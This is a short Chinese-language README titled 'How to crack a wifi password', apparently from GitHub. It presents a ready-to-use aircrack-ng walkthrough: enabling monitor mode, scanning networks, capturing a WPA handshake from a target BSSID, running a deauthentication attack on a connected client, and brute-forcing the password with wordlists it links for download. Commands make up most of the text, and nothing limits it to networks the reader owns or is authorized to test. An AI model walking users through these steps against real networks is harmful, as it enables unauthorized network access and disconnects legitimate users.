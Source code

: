 # 如何破解wifi密码？

- Kali官网：https://www.kali.org
- VM虚拟机下载：https://www.ozabc.com/gongju/499925.html

## aircrack-ng 命令的详细解释
![C0127 00_06_19_11 Still004](https://github.com/3981877/wifi/assets/60610978/047fd241-0aed-4df0-86a7-4e8088335950)

sudo -i  ：管理员权限

ifconfig ：查看当前的网卡信息

airmon-ng：检查网卡是否支持监听功能的

airmon-ng start wlan0 ：激活无线网卡的监听模式

airodump-ng wlan0 ：扫描当前周边环境的WiFi信号

## 下面里的部分信息根据自己的情况进行替换

抓包命令：airodump-ng -c 11 –bssid 60:32:B1:56:3F:B2 -w /home/lingdu/桌面/handshake wlan0

ACK 死亡攻击：aireplay-ng -0 10 -a 60:32:B1:56:3F:B2 -c F0:72:EA:E8:72:21 wlan0

暴力破解命令：
aircrack-ng -w /home/lingdu/桌面/password.txt -b 60:32:B1:56:3F:B2 /home/lingdu/桌面/handshake-0*.cap


## Github上常用的WPA/WPA2 密码字典+加强版
![The-Demise-of-the-Password](https://github.com/3981877/wifi/assets/60610978/316163ff-1ed1-49f6-b7d8-45a857c92639)


- Github字典下载：https://github.com/conwnet/wpa-dictionary

- 加强版（来源网络）：https://drive.google.com/file/d/1L1mDFRJAcShwU1gBAbECkx7OR_C7Ef90/view?usp=sharing
